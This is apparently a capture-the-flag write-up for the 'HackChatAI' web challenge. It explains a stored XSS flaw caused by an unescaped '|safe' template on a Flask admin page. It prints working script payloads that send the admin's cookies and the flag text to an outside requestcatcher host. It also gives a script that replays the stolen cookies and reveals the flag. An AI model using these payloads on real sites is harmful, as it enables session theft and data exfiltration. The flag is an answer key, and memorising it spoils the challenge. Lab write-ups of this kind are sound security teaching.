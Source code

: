 # HackChatAI \[388 points\] (6 solves)

> Why rely on humans for conversation when AI can handle it for you?

### Files:
[src.zip](/web/HackChatAI/src)

This challenge gives us a Flask chat app which allows us to communicate with a GPT-4o model and optionally request a human. Requesting a human spins up a Selenium webdriver and visits the `/admin` chat, but nothing is returned from there.

## The Attack Vector

The goal is pretty obvious: steal the admin's cookie, log in to `/admin` and get the flag from the admin chat.

Since this is a Flask app, I was mostly looking for `| safe` operators, since they turn of Flask's autoescaping. Autoescaping is done by default by Flask, and it ensures that anything dynamically loaded via templates into our HTML is treated like plain text, not as HTML. If the challenge turns autoescaping off, we will be able to perform basic XSS attacks to exfiltrate data from the admin. Yet, if we look at our `index.html` file, we can see that there aren't any `| safe` operators (these would turn off autoescaping and allow for our messages to be parsed as HTML):

```html
    <h2>Chat Page</h2>
    <div class="messages" id="messages">
        {% for message, is_response in chat_history %}
            <div>{{ 'Server: ' if is_response else 'You: ' }}{{ message }}</div>
        {% endfor %}
    </div>
```

I was stuck here for most of the challenge. If I'm not able to inject code, how can I steal the flag from the admin?

In this case, my mistake was the assumption that our Selenium instance is visiting the same chat as I was. The Selenium instance actually visits the `/admin` page with an admin cookie, which is what we're trying to steal. 

> [!NOTE]
> The Selenium instance only starts up when you write `I need a human` in the chat

If we look at the admin page:

```html
    <h3>Chat History</h3>
    <div class="chat-history">
        {% for chat in chat_history %}
        <div class="chat-message">
            <div class="chat-date">{{ chat[0]|safe }}</div>
        </div>
        {% endfor %}
    </div>
```

We can see that all of our messages have autoescaping turned off, allowing for us to use XSS to steal the admin account.

When tinkering with different XSS attacks, the biggest deterrent I found was this error I:

![console fetch error](/web/HackChatAI/solution/cors_error.png)

I thought this meant that I wasn't able to POST the data, so I started considering exfiltrating data with WebRTC and DNS out-of-bound interactions. But, if you read the error carefully, it's specifying that the *response* is being blocked, not the *request*, which means that our data is being sent, but any response we get will be blocked by CORS. That doesn't matter, because we're not returning anything from the request.


## Execution

Here is my basic XSS attack to exfiltrate the cookie from the admin:

```js
<script>
    fetch("https://hackbox.requestcatcher.com", { 
        method: "POST",
        headers: { "Content-Type": "text/plain" },
        body: document.cookie
    });
</script>
```
<details>
<summary>Minified</summary>

```html
<script>fetch("https://hackbox.requestcatcher.com", { method: "POST", headers: { "Content-Type": "text/plain" }, body: document.cookie });</script>
```

</details>

In this POST request, I used [`requestcatcher`](https://requestcatcher.com/) to see all `POST`ed data, mainly because it's free and unblocked on my school's WiFi. Once I input the XSS into the chat and requested a human, we get `POST`ed data of the admin cookies:

![cookies from admin](/web/HackChatAI/solution/stolen_cookies.png)

So, this was the final script to get the admin page:
```py
import requests

url = "https://ictf24-high-hackchatai.chals.io/admin"
cookies = {
    "admin_cookie": "NBtL78S9MCdb8sOC",
    "play_token": "2ht823oPJa5jPrcy"
}

response = requests.get(url, cookies=cookies)

print(response.text)
```


Resulting in the HTML page of the admin containing the flag:
```
...
<h2>Welcome, Admin!</h2>
<h3>ictf{well_d0n3_on_s0lv1ng_th1s_ch4ll3ng3_hackchatai24}</h3>
...
```

### Alternate solution

However, it's actually easier to ignore the admin cookie altogether and simply steal the flag, since it's loaded on the admin page regardless:

![admin page](/web/HackChatAI/solution/admin_console_selenium.png)

This flag in an H3 element, which we can steal by parsing through all H3s that start with `ictf` (the flag format):

```html
<script>
    fetch("https://hackchatai.requestcatcher.com", {
        method: "POST",
        headers: {
            "Content-Type": "text/plain"
        },
        body: Array.from(document.querySelectorAll('h3')).find(el => el.textContent.trim().startsWith('ictf')).textContent
    });
</script>
```

<details>
<summary>Minified</summary>

```html
<script>fetch("https://hackchatai.requestcatcher.com", {method: "POST", headers: {"Content-Type": "text/plain"}, body: Array.from(document.querySelectorAll('h3')).find(el => el.textContent.trim().startsWith('ictf')).textContent.trim() || 'invalid'});</script>
```

</details>

<br>

We get a POST request like this:

![final post req](/web/HackChatAI/solution/request_catcher_post.png)

Giving us the flag.

```
ictf{well_d0n3_on_s0lv1ng_th1s_ch4ll3ng3_hackchatai24}
```

## Conclusion

I really enjoyed this challenge. It reminded me of PicoCTF 2024's hardest web challenge, `elements`, given that both of the challenges allowed the user to execute code in an automated web browser to exfiltrate the flag. This wasn't too hard, and was a nice practice problem in the middle of the competition.
